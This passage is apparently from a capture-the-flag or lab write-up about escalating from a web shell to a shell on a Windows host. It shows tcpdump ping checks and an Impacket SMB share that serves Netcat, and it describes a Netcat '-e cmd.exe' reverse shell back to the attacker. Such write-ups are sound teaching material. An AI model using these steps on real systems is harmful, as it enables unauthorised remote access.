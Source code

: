 ```
tcpdump -i tun0 icmp
```

With that running, we can go ahead and hit `execute` and see if we get pings back.

```
┌──(root@kali)-[/opt/SecLists/Web-Shells/FuzzDB]
└─# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:40:04.877600 IP 10.10.10.5 > 10.10.14.36: ICMP echo request, id 1, seq 1, length 40
21:40:04.877616 IP 10.10.14.36 > 10.10.10.5: ICMP echo reply, id 1, seq 1, length 40
21:40:05.879043 IP 10.10.10.5 > 10.10.14.36: ICMP echo request, id 1, seq 2, length 40
21:40:05.879060 IP 10.10.14.36 > 10.10.10.5: ICMP echo reply, id 1, seq 2, length 40
21:40:06.894312 IP 10.10.10.5 > 10.10.14.36: ICMP echo request, id 1, seq 3, length 40
21:40:06.894329 IP 10.10.14.36 > 10.10.10.5: ICMP echo reply, id 1, seq 3, length 40
21:40:07.891162 IP 10.10.10.5 > 10.10.14.36: ICMP echo request, id 1, seq 4, length 40
21:40:07.891178 IP 10.10.14.36 > 10.10.10.5: ICMP echo reply, id 1, seq 4, length 40
```

And we see that we do get pings back. Great! Now the question is how do we get an actual shell on the box from this? Well since we know this is a Windows box, we can do something interesting which is setting up our own SMB server. If you do not know what SMB is, SMB is essentially a protocol that allows applications and services on networked computers to communicate with each other. SMB allows for core features such as printing, file sharing, device sharing, etc.  Knowing that is has the feature to file share, that is exactly what we are going to use it for when go from web shell to a shell on the host.

## Web Shell -> Shell on the Host

To go ahead and host our SMB server are we going to use `smbserver.py`. `smbserver.py` takes two arguments: `<share_name>` and `<path_of_dir_you_want_to_share>`. For us, we want to have within our SMB server a `Netcat` binary so that we can get a reverse shell. Thankfully, Kali Linux comes with windows-binaries on the system already within the directory `/usr/share/windows-binaries/`. So we can get this share going by running the following command:

```
smbserver.py share /usr/share/windows-binaries/
```

```
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
                                                  
[*] Config file parsed                    
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                    
[*] Config file parsed                      
[*] Config file parsed 
```

Now all we need to do is have the web shell grab this Netcat binary. But something else we need to do is also have this execute commands. Netcat has the `-e` flag which will allow us to execute a program on connection. The program we are going to execute is `cmd.exe` and then we can specify an IP address and a port that we want it to connect to, that being our own IP and a port we are listening on. So let's go ahead and set our Netcat listener up and then execute the command within our web shell to get a shell on the host.
